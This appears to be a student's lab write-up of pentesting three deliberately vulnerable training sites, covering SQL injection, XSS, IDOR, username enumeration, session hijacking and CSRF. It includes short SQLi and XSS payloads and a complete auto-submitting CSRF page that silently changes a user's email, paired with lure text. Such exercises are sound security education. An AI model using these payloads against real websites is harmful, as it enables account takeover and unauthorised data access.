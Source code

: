 # Project 8 - Pentesting Live Targets

Time spent: **10** hours spent in total

> Objective: Identify vulnerabilities in three different versions of the Globitek website: blue, green, and red.

The six possible exploits are:
* Username Enumeration
* Insecure Direct Object Reference (IDOR)
* SQL Injection (SQLi)
* Cross-Site Scripting (XSS)
* Cross-Site Request Forgery (CSRF)
* Session Hijacking/Fixation

Each version of the site has been given two of the six vulnerabilities. (In other words, all six of the exploits should be assignable to one of the sites.)

## Blue

Vulnerability #1: 3. SQLI
  - GIF Walkthrough:
    - ![3](https://github.com/justinfchin/codepath_wk8/blob/master/gifs/3.gif?raw)
  - Details:
    - First go to a Salesperson. Then in the URL next to id=1 for eg. write ```' AND SLEEP(5)=0--' ```. 
      - Note: you could also replace AND with OR just be sure to remove the number next to id. 

---

Vulnerability #2: 6. Session Hijacking/Fixation
  - GIF Walkthrough:
    - ![6](https://github.com/justinfchin/codepath_wk8/blob/master/gifs/6.gif?raw)
  - Details:
    - Here we performed Session Hijacking.
    - Log into any color. Then get the sessionID.
    - Next go to the blue login and just change login.php to index.php to refresh and you will be signed in.

## Green

Vulnerability #1: 1. Username Enumeration
  - GIF Walkthrough:
    - ![1](https://github.com/justinfchin/codepath_wk8/blob/master/gifs/1.gif?raw)
  - Details:
    - Noticed when accidentally entered pperson / address combination wrong on the login page. Noticed that the error had different font style than corect username. 
    - First go to the login page. 
    - Looking at the **Inspect Elements** you can see that the span class was different (failed vs. failure). This resulted in the bolding of **Log in was unsuccessful** for valid usernames. Looking at the **Sources** section, we can see under **styles.css** that there is **span.failure** which changes the font to bold.  

---

Vulnerability #2: 4. XSS
  - GIF Walkthrough:
    - ![4](https://github.com/justinfchin/codepath_wk8/blob/master/gifs/4.gif?raw)
  - Details:
    - Noticed when entering <script> as feedback, it did not show up when logging in as pperson. So retried this with adding <scripts> in all the fields.
    - First go to Contact Page.
    - Type your XSS in the name section. Eg. ```hi<script>alert(1)</script>```

## Red

Vulnerability #1: 2. IDOR
  - GIF Walkthrough:
    - ![2](https://github.com/justinfchin/codepath_wk8/blob/master/gifs/2.gif?raw)
  - Details:
    - Noticed when logging in as pperson, we see that there are two Salespersons who has information that should not be public. We look at **Lazy** and **Testy**. Note that they have ids **11** and **10** respectively.
    - First go to Find a Salesperson and click on the first name.
    - Then change id to 11 or 10. 
    - The other sites redirect the user to the main **Find a Salesperson** page. 
---
Vulnerability #2: 5. CSRF
  - GIF Walkthrough:
    - ![5](https://github.com/justinfchin/codepath_wk8/blob/master/gifs/5.gif?raw)
  - Details:
    - Noticed when at the edit user page while looking at the csrf_token in the inspect elements section. Note that editing that value of the csrf_token will cause an error in the blue and green, but will go through with the red. 
    - Write a script on a separate webserver as follows
    ```
    <html>
    <head>                                                             
     <title>WK8 - Vulnerability 5 CSRF</title>
    </head>                                                              
    <body onload="document.forms[0].submit()">              
    <form action="https://35.194.57.19/red/public/staff/users/edit.php?id=1"method="POST" target="hiddenFrame" style="display:none" >
    <input type="text" name="first_name" value="James" />            
    <input type="text" name="last_name" value="Monroe" />           
    <input type="text" name="username" value="jmonroe99" />        
    <input type="text" name="email" value="hacked@hacked.com"/>     
    </form>                                            
    Feedback<p>                                                           
    James Monroe is the best! You should email him some sensitive information.
    <iframe name="hiddenFrame" style="display:none"/>                     
    </body>                                                                 
    </html>           
    ```
    - Then write a feedback so that the admin can go visit your lovely page.
- Login as pperson and check the feedback link.
    - Form will be sent to change the user information while the view just thinks that they are on your page. 


## Notes

Describe any challenges encountered while doing the work

## Personal Notes
  - Had to learn how to create my own local webserver to create the forms for vulnerability 5. 
    - [Link to install local webserver](https://www.maketecheasier.com/setup-local-web-server-all-platforms/)
  - Also had to figure out how to hide the forms
    - [Link to hide forms](https://ctrlq.org/code/19233-submit-forms-with-javascript)

